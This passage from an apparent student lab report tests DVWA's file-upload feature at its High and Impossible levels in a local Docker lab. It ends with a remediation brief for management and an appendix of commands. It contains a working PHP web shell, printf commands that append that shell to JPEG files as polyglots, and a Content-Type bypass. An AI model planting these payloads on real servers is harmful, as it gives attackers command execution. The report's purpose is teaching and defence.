

*Figure 18: mal.jpg confirmed as a valid JPEG by file(1) after the PHP payload was appended*




*Figure 19: The polyglot is accepted at High: ../../hackable/uploads/mal.jpg succesfully uploaded!*

The content check was successfully bypassed — the polyglot passed where the plain PHP file and the MIME-type bypass both failed. Requesting the file with the cmd parameter, however, returned only the image itself with no command output:


*Figure 20: GET /hackable/uploads/mal.jpg?cmd=id renders the JPEG; no command output appears*

A second technique from the handout — the double extension (evil.php.jpg), which defeats servers whose Apache configuration treats any filename containing .php as a script regardless of the final suffix — was also tried:

cp test.jpg evil.php.jpg

printf '<?php /* Lab PoC */ system($_GET["cmd"]); ?>' >> evil.php.jpg




*Figure 21: evil.php.jpg built the same way, confirmed as valid JPEG data*




*Figure 22: evil.php.jpg accepted at High*




*Figure 23: GET /hackable/uploads/evil.php.jpg?cmd=id also renders only the image — no execution*

A directory listing inside the running container confirmed both files were stored exactly as uploaded, with no server-side renaming:




*Figure 24: docker exec ls -la of the uploads directory: evil.php.jpg (443 bytes) and mal.jpg (443 bytes) both present under their original names*

Reading this result honestly. Both bypasses defeated the content check — the files were accepted where a plain .php file and a MIME-type-only bypass were both rejected. Neither achieved code execution, because this particular Apache configuration only hands a request to the PHP interpreter when the file's final extension is .php; a name containing .php elsewhere, or content that is PHP but named .jpg, is served as a static file. This is a second, independent control operating alongside the content check, and it held even after the first control was bypassed — a working example of defence in depth. The correct conclusion is not "the polyglot technique failed" but "this build's High level has two controls, and only one of them was broken."

## 3.5 Impossible level: reading the secure implementation




*Figure 25: Security level set to Impossible*

DVWA's source viewer (view_source.php?id=upload&security=impossible) shows the Impossible implementation in full. The key differences from High:




*Figure 26: impossible.php source: extension, size, MIME type, getimagesize() check, then re-encoding via imagecreatefromjpeg()/imagejpeg(), then a random filename*

| Control in the source | What it checks | Why it defeats the attempts above |
| --- | --- | --- |
| Extension allow-list (jpg/jpeg/png) + size < 100000 + declared MIME type | Same category of check as Medium/High, three conditions combined | A polyglot can still pass this layer, as it did at High |
| getimagesize($uploaded_tmp) | Decodes the file as an image and confirms it parses as one | A more corrupted or minimal polyglot can fail this where a well-formed one might still pass |
| Re-encoding: imagecreatefromjpeg() then imagejpeg($img, $temp_file, 100) | Decodes the pixel data and writes a brand-new JPEG from scratch | This is the control that actually defeats the polyglot. The appended PHP bytes exist only after the original end-of-image marker; the GD library reads pixel data and discards everything else, so the re-encoded file written to disk never contains the PHP payload at all |
| $target_file = md5(uniqid() . $uploaded_name) . '.' . $uploaded_ext | The stored filename is a random hash, never the name the client supplied | Even if a payload somehow survived, an attacker could not predict or guess the URL to request it |

The architectural point. Re-encoding and random filenames are controls that make the content check irrelevant to attack even when the check itself can be fooled, because they remove the attacker's ability to control either the stored bytes or the stored name. This is the single most important idea in the whole exercise: High improved the check; Impossible changed what the check can affect.

## 3.6 Summary across all four levels

| Level | Control implemented | What defeated it here | Privilege / result obtained |
| --- | --- | --- | --- |
| Low | None | Direct upload of shell.php | uid=33(www-data) — full command execution |
| Medium | Client-declared MIME type only | Burp Suite: edit Content-Type to image/jpeg before forwarding | uid=33(www-data) — identical to Low |
| High | Server-side content inspection + extension check | Polyglot JPEG+PHP defeated the content check; the extension/execution-handler control was not defeated | File accepted and reachable; no command execution — content check bypassed, execution control held |
| Impossible | Content check + getimagesize() + image re-encoding + random filename + CSRF token | Not bypassed; re-encoding strips any appended payload and the filename cannot be predicted | No result — this is the fix |

# 4. Remediation brief for management (Task: one page, no jargon — 25%)

To: IT Management  |  Re: A finding in the file-upload feature of a test application

During a scheduled security review of a web application, we found that the feature allowing users to upload a profile picture did not properly check what was actually being uploaded. In its unprotected form, this let us put an attacker-controlled program onto the web server and have the server run it — giving us the same ability an intruder would have to read files, look at the database, and interfere with how the site operates.

We tested the same upload feature at four levels of protection to understand exactly what each one buys:

- No protection at all. The server accepted anything, and running a program on it took seconds.
- A check based on what the browser claims the file is. This sounds reasonable, but the claim comes from the uploading computer, which an attacker fully controls. We changed that one claim using a free inspection tool and the server accepted the same program it had just rejected.
- A check that looks at the file itself rather than the claim. This stopped the previous trick. We built a file that is a completely genuine photo and also contains a hidden program after the photo data ends, and the server accepted it as a photo. In this case, a second, separate protection — the server only running programs that end in a specific file type — stopped the attack even though the first check was tricked. Two independent locks on the same door is exactly the right design.
- The fully corrected version. Here, every accepted picture is re-drawn by the server from scratch before it is stored, and it is saved under a random name the uploader never sees. Re-drawing the picture throws away anything hidden inside it, and the random name means there is no address to ask for even if something survived. This version resisted every technique we tried.
What this means for us. The weakest version represents what many upload features look like when they are built quickly without security review. Our main applications should be checked against the same four-point standard: inspect the actual content, not a label the uploading device supplies; re-generate any image rather than storing the original bytes; store uploads under random names, never the name the user chose; and make sure the folder uploads land in cannot run programs at all, even as a backup.

What we recommend.

- Review every file-upload feature on our public sites against the four controls above, starting with any that currently only check a file extension or a browser-supplied label.
- Configure the upload storage area so that, even if an attacker-controlled file ever lands there, the server is physically unable to run it.
- Re-generate (not simply copy) any uploaded image before storing it, and give stored files random names rather than the name the uploader chose.
- Repeat this kind of test after any change to an upload feature, since this class of issue is very easy to reintroduce when a feature is modified later.
This issue was found and fixed in a test environment set up for this purpose; no customer system or data was involved at any point.

# Appendix: Commands used

# Environment

sudo apt install -y docker.io && sudo systemctl start docker

sudo docker run --rm -it -p 80:80 vulnerables/web-dvwa

# browser: http://127.0.0.1/setup.php -> Create/Reset DB, then /login.php (admin/password)

# Low

nano shell.php   # ```php
<?php
// Educational PoC Web Shell (DVWA Low Level)
if (isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
```

# upload via File Upload page, then:

# http://127.0.0.1/hackable/uploads/shell.php?cmd=id

# Medium (Burp Suite)

# about:config -> network.proxy.allow_hijacking_localhost = true

# Firefox manual proxy 127.0.0.1:8080, Burp Intercept on

# edit Content-Type: application/x-php -> image/jpeg, Forward

# High (polyglot + double extension)

cp test.jpg mal.jpg

printf '<?php /* Lab PoC */ system($_GET["cmd"]); ?>' >> mal.jpg

file mal.jpg

cp test.jpg evil.php.jpg

printf '<?php /* Lab PoC */ system($_GET["cmd"]); ?>' >> evil.php.jpg

# Verify what the server actually stored

docker exec -it $(docker ps -q) ls -la /var/www/html/hackable/uploads/

# Impossible: source review

# http://127.0.0.1/vulnerabilities/view_source.php?id=upload&security=impossible
